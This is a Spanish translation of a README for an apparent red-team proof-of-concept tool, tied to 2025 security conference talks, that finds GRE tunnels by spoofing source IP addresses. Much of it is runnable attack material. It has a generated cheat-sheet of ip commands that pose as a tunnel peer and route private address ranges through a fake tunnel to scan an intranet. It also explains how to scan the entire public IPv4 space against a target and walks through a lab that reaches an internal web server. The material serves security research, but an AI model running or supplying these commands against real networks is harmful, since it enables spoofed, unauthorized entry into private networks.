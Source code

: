 # Escáner de túnel GRE
## ⚠️⚠️⚠️ IMPORTANTE ⚠️⚠️⚠️
### ⚠️Esta herramienta incluye suplantación de direcciones IP de origen. Por favor, asegúrese de tener autorización legal para usarla.⚠️
## Referencia
- Este es un código PoC para charlas: De la suplantación al túnel: Nuevas técnicas de red del equipo rojo para acceso inicial y evasión
    - [Black Hat USA 2025 Briefing](https://www.blackhat.com/us-25/briefings/schedule/#from-spoofing-to-tunneling-new-red-teams-networking-techniques-for-initial-access-and-evasion-44678)
    - [DEF CON 33 Main Stage](https://defcon.org/html/defcon-33/dc-33-speakers.html#content_60316)
    - [HITCON 2025](https://hitcon.org/2025/en-US/agenda/)
## Preparar
- `pip3 install requirement.txt`
## Uso
```
python3 main.py -i <interface> -lh <your_public_IP> -s <gre_src_ip_subnet or ip_list_file> -d  <gre_dst_ip_subnet or ip_list_file> -o <logfile>
```
## Ejemplo
- por ejemplo `1.1.1.1` y `2.2.2.2` tienen túnel gre tú eres `3.3.3.3`
```
python3 main.py  -i eth0 -lh 3.3.3.3 -s 1.1.1.1 -d 2.2.2.2
INFO - sending gresrc 1.1.1.1, gredst 2.2.2.2
CRITICAL - Received reply from 2.2.2.2 GRE peer: 1.1.1.1
```
- Y obtener cómo abusar del túnel GRE
```
python3 main.py  -i eth0 -lh 3.3.3.3 -s 1.1.1.1 -d 2.2.2.2 -sch -l3
########################## output ##########################
#### Create Fake Tunnel ####
IFACE=eth0
MYPUBIP=3.3.3.3
SRCADDR=1.1.1.1
DSTADDR=2.2.2.2
ip addr add  $SRCADDR/32 dev $IFACE
ip r add $DSTADDR dev $IFACE src $SRCADDR
ip tunnel add gre1 mode gre local $SRCADDR remote $DSTADDR ttl 255
ip link set gre1 up mtu 1280

## route possible private ip ##
ip r add 10.0.0.0/8 dev gre1 src $MYPUBIP
ip r add 172.16.0.0/12 dev gre1 src $MYPUBIP
ip r add 192.168.0.0/16 dev gre1 src $MYPUBIP

### start scan intranet ###
#### !IMPORTANT! ####
# !! nmap is not available for this kind of attack use fping instead !! #
# fping -g 192.168.0.0/16

### cleanup ###
ip addr del $SRCADDR/32 dev $IFACE
ip tunnel del gre1
```
- si conoces el endpoint pero no conoces la dirección del par, puedes hacer algo así
  - `python3 main.py  -i eth0 -l3 -lh 3.3.3.3 -s 1.1.1.0/24 -d 2.2.2.2 -id 8.8.8.8`
  - recibirás respuesta de 8.8.8.8 mientras obtienes el par correcto

- configuración predeterminada alrededor de 500 paquetes/seg.
## opciones
- `-sch`: Muestra la hoja de referencia y sale (Introduce -i -lh -s -d que encontraste y luego obtén el comando para abusar del túnel GRE)
- `-l3`: Interfaz de túnel de Capa 3 (Por defecto: Falso)
- `-r`: Coloca la información de IP destino GRE en ICMP (Por defecto: Coloca la información de IP origen GRE)
- `-ss`: Guarda y usa archivo de estado (el último escaneo se reanudará) (Por defecto: Falso)
  - Recomendado "on" en sistemas de escaneo masivo que a veces matan el script
- `-i <interfaz>`: Interfaz para enviar paquetes
- `-s <ip_o_archivo>`: Una subred IP o una lista de IPs (subredes) para usar como origen GRE
- `-d <ip_o_archivo>`: Una subred IP o una lista de IPs (subredes) para usar como destino GRE
- `-L <archivo>`: escanea una lista de pares GRE
  - cada línea del archivo se ve así `1.1.1.1,2.2.2.2`
- `-lh <ip>`: Una IP en tu interfaz pública (la IP en la interfaz -i)
- `-o <archivo>`: Ruta del archivo de registro
- `-t <float>`: Espera cuántos segundos después de enviar el paquete GRE (Por defecto: 2)
- `-T <int>`: Cuántos hilos envían paquetes GRE al mismo tiempo (Por defecto: 255)
- `-cs <int>`: Envía cuántas IP hasta comenzar a esperar la respuesta ping (por defecto: 1000)
- `-dp`: Escanear IP privada - escanear GRE de IP privada (Por defecto: Falso)
- `-id <ip>`: Dirección destino ICMP interna (Por defecto: igual que destino GRE)
  - Usa esto si conoces la dirección de intranet interna
- `-v <nivel_log>`: Nivel de registro `['DEBUG', 'INFO', 'WARNING', 'ERROR', 'CRITICAL']` (Por defecto: INFO)
  - El registro de pares GRE encontrados está en `CRITICAL`


## mejor manera de escanear toda la IP pública

```
wget https://bgp.tools/table.txt
cat table.txt |grep -v "::"|cut -d " " -f 1 > v4table.txt
pip3 install aggregate6
aggregate6 v4table.txt > aggrv4table.txt
#cat aggrv4table.txt|wc -l   #159652
python3 main.py -i  <interface> -lh <your_public_IP> -s aggrv4table.txt -d <your_target> -ss
```

## Laboratorio
### Video de demostración
- [Youtube](https://youtu.be/DDvfYl5-J28)
### Escanear túnel GRE
`python3 main.py -i <iface> -lh <tu_ip> -s 1.1.1.1 -d 160.25.104.199`
### Acceder y escanear intranet
```
#### Create Fake Tunnel ####
IFACE=eth0  #change this 
MYPUBIP=9.9.9.9  #change this
GATEWAY=1.2.3.4 #change this
SRCADDR=1.1.1.1 # lab info don't change
DSTADDR=160.25.104.199 # lab info don't change
ip addr add $SRCADDR/32 dev $IFACE
ip r add $DSTADDR dev $IFACE via $GATEWAY src $SRCADDR
ip tunnel add gre1 mode gre local $SRCADDR remote $DSTADDR ttl 255
ip link set gre1 up mtu 1280
### start scan intranet ###
fping -g 192.168.0.0/16

##### scan output #####
# 192.168.1.2 is alive

## test curl to web ##
curl 192.168.1.2
# YOU KNOW GRE!

#### cleanup ####
ip addr del $SRCADDR/32 dev $IFACE
ip tunnel del gre1
```
## Descargo de responsabilidad
Este proyecto está destinado únicamente a fines educativos y de investigación. Cualquier acción y/o actividad relacionada con este código es responsabilidad exclusiva del usuario. Los autores y colaboradores no se hacen responsables de ningún uso indebido o daño causado por este proyecto. Por favor, asegúrese de tener la autorización adecuada antes de probar, usar o implementar cualquier parte de este código en cualquier entorno. El uso no autorizado de este código puede violar leyes locales, estatales y federales.

## Licencia
Este proyecto está licenciado bajo los términos de la licencia MIT.




---

Tranlated By [Open Ai Tx](https://github.com/OpenAiTx/OpenAiTx) | Last indexed: 2025-10-11

---